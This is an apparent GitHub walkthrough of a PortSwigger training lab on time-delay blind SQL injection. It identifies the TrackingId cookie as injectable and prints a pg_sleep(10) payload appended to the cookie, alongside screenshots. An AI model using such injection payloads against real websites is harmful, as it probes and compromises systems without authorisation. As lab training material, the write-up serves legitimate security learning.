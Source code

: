 ## Welcome, my friend. Today we will start the [15. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/9824ba40-4b63-44ef-9b43-4948c19dc8a7)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/2142c4d0-1b3d-490a-86b1-b5c98bd38d25)

![image](https://github.com/user-attachments/assets/1ee8f906-db0c-420d-bf93-df5feb7d9fad)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:


### We add this payload for sleep little of time:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'||pg_sleep(10)--;
```

![image](https://github.com/user-attachments/assets/6b8d1940-6e9b-4dc9-a0e2-945aa0bd9466)

![image](https://github.com/user-attachments/assets/a57d104d-4c25-42ef-aa7a-f443e0aafac8)


![image](https://github.com/user-attachments/assets/b65a3eb9-f46e-43d9-a155-a620b4467636)






-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
